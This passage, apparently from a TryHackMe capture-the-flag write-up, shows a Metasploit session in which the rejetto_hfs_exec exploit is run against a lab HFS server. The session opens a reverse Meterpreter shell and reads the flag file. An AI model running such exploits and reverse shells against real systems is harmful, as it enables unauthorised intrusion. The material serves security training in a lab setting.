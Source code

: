 ```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > excploit
[-] Unknown command: excploit
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:1111
[*] Using URL: http://thmjmp2.za.tryhackme.com:8081/C5fvRY
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /C5fvRY
[*] Sending stage (175686 bytes) to 127.0.0.1
[!] Tried to delete %TEMP%\dHEPu.vbs, unknown result
[*] Meterpreter session 1 opened (127.0.0.1:1111 -> 127.0.0.1:37034) at 2023-07-04 14:42:26 +0800
[*] Server stopped.

meterpreter > cat C:\hfs\flag.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "C:\hfs\flag.txt"
THM{FORWARDING_IT_ALL}
meterpreter >
```


## Conclusion

